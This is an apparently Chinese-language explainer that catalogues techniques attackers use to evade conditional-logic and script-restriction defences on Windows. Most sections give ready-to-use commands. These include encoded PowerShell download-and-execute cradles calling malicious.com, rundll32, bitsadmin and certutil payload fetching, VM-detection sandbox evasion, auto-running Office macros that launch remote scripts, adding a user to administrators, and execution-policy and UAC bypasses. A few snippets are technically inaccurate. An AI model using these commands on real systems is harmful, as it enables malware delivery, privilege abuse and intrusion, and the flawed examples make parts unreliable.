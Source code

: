 CLM（Conditional Logic Module，条件逻辑模块）通常指的是一种基于条件逻辑的控制机制，用于在特定条件下执行或阻止某些操作。在安全领域，CLM可以涉及到条件访问控制、脚本执行、策略实施等方面。防御规避技术（Evasion Techniques）是攻击者用来绕过这些条件逻辑控制的手段。以下是一些常见的CLM防御规避技术和详细的例子：

### 1. 混淆和编码

#### 例子：
- **混淆脚本**：通过混淆脚本代码，使其难以被条件逻辑模块检测和分析。
  ```powershell
  $encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Invoke-Expression -Command (New-Object Net.WebClient).DownloadString("http://malicious.com/script.ps1")'))
  powershell.exe -EncodedCommand $encoded
  ```

- **URL编码**：将恶意URL进行编码，使条件逻辑模块无法识别其为恶意内容。
  ```cmd
  powershell.exe -Command "Invoke-WebRequest -Uri 'http%3A%2F%2Fmalicious.com%2Fpayload'"
  ```

### 2. 使用合法进程

#### 例子：
- **利用已允许的进程**：利用系统中已被允许的进程来执行恶意操作。
  ```cmd
  rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write('<script src="http://malicious.com/script.js"></script>')
  ```

- **利用系统工具**：使用合法的系统工具来执行恶意代码。
  ```cmd
  bitsadmin.exe /transfer myDownloadJob http://malicious.com/payload.exe C:\path\to\payload.exe
  ```

### 3. 环境检测和逃避

#### 例子：
- **环境检测**：检测运行环境，如果检测到安全机制则改变行为或停止执行。
  ```powershell
  if ((Get-WmiObject -Class Win32_ComputerSystem).Manufacturer -eq 'VMware, Inc.') { exit }
  ```

- **延时执行**：通过延时执行绕过条件逻辑模块的检测。
  ```powershell
  Start-Sleep -Seconds 60; Invoke-Expression -Command (New-Object Net.WebClient).DownloadString("http://malicious.com/script.ps1")
  ```

### 4. 文件格式和嵌入

#### 例子：
- **嵌入恶意代码**：将恶意代码嵌入到被信任的文件格式中，例如Office文档或PDF。
  ```vbscript
  ' VBA Macro in Excel
  Sub Auto_Open()
      Call Shell("powershell.exe -ExecutionPolicy Bypass -File http://malicious.com/payload.ps1")
  End Sub
  ```

- **使用非典型文件格式**：利用非典型或不常见的文件格式执行恶意操作。
  ```cmd
  certutil.exe -decode encoded_payload.txt payload.exe
  ```

### 5. 特权提升和绕过

#### 例子：
- **利用特权提升漏洞**：通过系统漏洞提升权限并执行恶意操作。
  ```powershell
  Start-Process -FilePath "powershell.exe" -ArgumentList "-Command Start-Process -FilePath 'cmd.exe' -ArgumentList '/c net localgroup administrators maliciousUser /add' -Verb runAs"
  ```

- **绕过用户账户控制（UAC）**：利用合法进程绕过UAC执行恶意代码。
  ```cmd
  powershell.exe Start-Process cmd.exe -ArgumentList "/c start powershell.exe -ExecutionPolicy Bypass -NoProfile -File C:\path\to\payload.ps1" -Verb runAs
  ```

### 6. 网络流量隐藏

#### 例子：
- **域前置**：使用合法的域名作为前置，隐藏恶意流量。
  ```cmd
  curl -H "Host: legitimate.com" http://malicious.com/payload
  ```

- **使用加密流量**：通过加密通信隐藏恶意活动。
  ```powershell
  $client = New-Object System.Net.WebClient
  $client.DownloadString("https://malicious.com/payload")
  ```

### 7. 规避脚本限制

#### 例子：
- **利用脚本解释器**：利用已允许的脚本解释器执行恶意代码。
  ```cmd
  cscript.exe malicious_script.vbs
  ```

- **绕过执行策略**：绕过PowerShell的执行策略限制。
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1
  ```

### 8. 社会工程和用户交互

#### 例子：
- **伪装成合法请求**：通过社会工程手段诱导用户执行恶意操作。
  ```powershell
  [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")
  [System.Windows.Forms.MessageBox]::Show("Please click OK to continue.", "Update Required")
  ```

- **利用宏和脚本**：诱导用户启用Office宏或其他脚本。
  ```vbscript
  ' VBA Macro in Word document
  Sub AutoOpen()
      Call Shell("powershell.exe -ExecutionPolicy Bypass -File http://malicious.com/malicious.ps1")
  End Sub
  ```

通过这些技术，攻击者可以有效规避条件逻辑模块的防御，从而成功执行恶意代码。了解这些规避技术对于提升安全防御能力、制定更有效的安全策略至关重要。